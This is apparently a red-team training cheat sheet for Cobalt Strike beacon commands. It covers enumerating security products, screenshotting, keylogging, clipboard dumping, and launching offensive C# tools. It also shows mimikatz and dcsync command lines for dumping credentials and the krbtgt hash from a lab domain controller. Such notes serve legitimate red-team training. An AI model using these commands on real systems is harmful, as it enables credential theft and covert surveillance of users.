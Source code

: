 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Cobalt_Strike
---
```



<span style="font-size: 35px; color:red"><b>Cobalt Strike</b></span>
&nbsp;
<span style="font-size: 25px; color:white"><b>Quick Reference</b></span>
- <span style="color:red">ps</span>: enumerate running processes (focus on services like <span style="color:red">Sysmon64.exe</span>, <span style="color:red">MsMpEng</span>, <span style="color:red">elastic-endpoint</span>, <span style="color:red">elastic-agent</span>).
- <span style="color:red">printscreen</span>, <span style="color:red">screenshot</span> or <span style="color:red">screenwatch</span>: to capture the user's desktop.
- <span style="color:red">keylogger</span>: to capture keystrokes (it's a job, so run <span style="color:red">jobs</span> to list them all and <span style="color:red">jobkill \<id\></span> to kill one).
- <span style="color:red">clipboard</span>: to dump clipboard contents.
- <span style="color:red">net-logons</span>: to list the logon sessions.
- <span style="color:red">execute-assembly</span>: to execute C# executables like
    - [SharpView](https://github.com/tevora-threat/SharpView): C# port of PowerView.
    - [SharPersist](https://github.com/mandiant/SharPersist): persistent toolkit for Windows.
    - [Seatbelt](https://github.com/GhostPack/Seatbelt): AV and Security Enumeration.
    - [SharpUp](https://github.com/GhostPack/SharpUp): tool to enumerate OS misconfigurations and missing Patches that might lead to privesc.
    - [Rubeus](https://github.com/GhostPack/Rubeus): to play with Kerberos.
    - [ADSearch](https://github.com/tomcarver16/ADSearch): enumeration through custom Lightweight Directory Access Protocol (LDAP) searches
- <span style="color:red">mimikatz</span>: it spawns a new temporary process that is later on destroyed.
  - use <span style="color:red">!</span> to elevate beacon to SYSTEM (i.e. mimikatz !lsadump::sam).
  - use <span style="color:red">@</span> to impersonate beacon's thread token before running the given command (which is useful when mimikatz needs to interact with remote systems, i.e. mimikatz @lsadump::dcsync /user:DEV\krbtgt).
- <span style="color:red">dcsync</span>: to dump all username and credential data from the DC (i.e. <span style="color:red">dcsync dev.cyberbotic.io DEV\krbtgt </span>)
